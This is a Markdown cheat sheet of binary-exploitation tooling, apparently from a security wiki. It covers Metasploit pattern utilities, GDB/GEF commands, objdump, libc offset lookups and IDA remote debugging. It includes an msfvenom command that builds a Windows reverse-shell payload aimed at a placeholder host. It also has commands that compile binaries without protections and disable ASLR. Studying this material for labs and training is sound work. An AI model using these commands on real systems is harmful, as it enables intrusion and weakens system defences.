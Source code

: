 # Exploiting Tools

## Metasploit

```text
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

### Shellcodes

```text
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

## GDB

### Install

```text
apt-get install gdb
```

### Parameters:

**-q** --&gt; No show banner  
**-x &lt;file&gt;** --&gt; Auto-execute GDB instructions from here  
**-p &lt;pid&gt;** --&gt; Attach to process

#### Instructions

&gt; **disassemble main** --&gt; Disassemble the function  
&gt; **disassemble 0x12345678**  
&gt; **set disassembly-flavor intel**  
&gt; **set follow-fork-mode child/parent** --&gt; Follow created process  
&gt; **p system** --&gt; Find the address of the system function  
&gt; **help**  
&gt; **quit**

&gt; **br func**  --&gt; Add breakpoint to function  
&gt; **br \*func+23**  
&gt; **br \*0x12345678  
&gt; del NUM** --&gt; Delete that number of br  
&gt; **watch EXPRESSION** --&gt; Break if the value changes

**&gt; run** --&gt; Execute  
**&gt; start** --&gt; Start and break in main  
&gt; **n/next** --&gt; Execute next instruction \(no inside\)  
&gt; **s/step** --&gt; Execute next instruction  
&gt; **c/continue** --&gt; Continue until next breakpoint

&gt; **set $eip = 0x12345678** --&gt; Change value of $eip  
&gt; **info functions** --&gt; Info abount functions  
&gt; **info functions func** --&gt; Info of the funtion  
&gt; **info registers** --&gt; Value of the registers  
&gt; **bt** --&gt; Stack  
&gt; **bt full** --&gt; Detailed stack

&gt; **print variable**  
&gt; **print 0x87654321 - 0x12345678** --&gt; Caculate  
&gt; **examine o/x/u/t/i/s dir\_mem/reg/puntero** --&gt; Shows content in octal/hexa/10/bin/instruction/ascii

* **x/o 0xDir\_hex**
* **x/2x $eip** --&gt; 2Words from EIP
* **x/2x $eip -4** --&gt;  $eip - 4
* **x/8xb $eip** --&gt; 8  bytes \(b-&gt; byte, h-&gt; 2bytes, w-&gt; 4bytes, g-&gt; 8bytes\)
* **i r eip** --&gt; Value of $eip
* **x/w pointer** --&gt; Value of the pointer
* **x/s pointer** --&gt; String pointed by the pointer
* **x/xw &pointer** --&gt; Address where the poiniter is located
* **x/i $eip** —&gt; Instructions of the EIP

### [GEF](https://github.com/hugsy/gef)

```bash
checksec #Check protections
p system #Find system function address
search-pattern "/bin/sh" #Search in the process memory
vmmap #Get memory mappings

#Shellcode
shellcode search x86 #Search shellcodes
shellcode get 61 #Download shellcode number 61

#Patterns
pattern create 200 #Generate length 200 pattern
pattern search "avaaawaa" #Search for the offset of that substring
pattern search $rsp #Search the offset given the content of $rsp
```

### GDB server

`gdbserver --multi 0.0.0.0:23947` \(in IDA you have to fill the absolute path of the executable in the Linux machine and in the Windows machine\)

## GCC

**gcc -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -z norelro -z execstack 1.2.c -o 1.2** --&gt; Compile without protections  
**-o** --&gt; Output  
**-g** --&gt; Save code \(GDB will be able to see it\)  
**echo 0 &gt; /proc/sys/kernel/randomize\_va\_space** --&gt; To deactivate the ASLR in linux

**To compile a shellcode:  
nasm -f elf assembly.asm** --&gt; return a ".o"  
**ld assembly.o -o shellcodeout** --&gt; Executable

## Objdump

**-d** --&gt; Disassemble executable sections \(see opcodes of a compiled shellcode, find ROP Gadgets, find function address...\)  
**-Mintel** --&gt; Intel sintax  
**-t** --&gt; Symbols table \(grep varBSS to get the address\)  
**-D** --&gt; Disassemble all \(address of static variable\)  
**-s -j .dtors** --&gt; Contenido de dtors  
**-s -j .got** --&gt; Contenido de got  
**-TR** --&gt; Relocations  
**ojdump -t --dynamic-relo ./exec \| grep puts** --&gt; Address of "puts" to modify in GOT  
**objdump -TR ./exec \| grep exit\(func lib\)** —&gt; Get address of all the functions inside the GOT

## Core dumps

1. Run `ulimit -c unlimited` before starting my program
2. Run `sudo sysctl -w kernel.core_pattern=/tmp/core-%e.%p.%h.%t`
3. sudo gdb --core=&lt;path/core&gt; --quiet

## More

**ldd executable \| grep libc.so.6** --&gt; Address \(if ASLR, then this change every time\)  
**for i in \`seq 0 20\`; do ldd &lt;Ejecutable&gt; \| grep libc; done** --&gt; Loop to see if the address changes a lot  
**readelf -s /lib/i386-linux-gnu/libc.so.6 \| grep system** --&gt; Offset of "system"  
**strings -a -t x /lib/i386-linux-gnu/libc.so.6 \| grep /bin/sh** --&gt; Offset of "/bin/sh"

**strace executable** --&gt; Functions called by the executable  
**rabin2 -i ejecutable --&gt;** Address of all the functions

**/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb --length 1000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb --length 1000 --query 1Ad2**

## **Inmunity debugger**

```bash
!mona modules    #Get protections, look for all false except last one (Dll of SO)
!mona find -s "\xff\xe4" -m name_unsecure.dll   #Search for opcodes insie dll space (JMP ESP)
```

## IDA

### Debugging in remote linux

Inside the IDA folder you can find binaries that can be used to debug a binary inside a linux. To do so move the binary _linux\_server_ or _linux\_server64_ inside the linux server and run it nside the folder that contains the binary:

```text
./linux_server64 -Ppass
```

 Then, configure the debugger: Debugger \(linux remote\) --&gt; Proccess options...:

![](../../.gitbook/assets/image%20%28112%29.png)

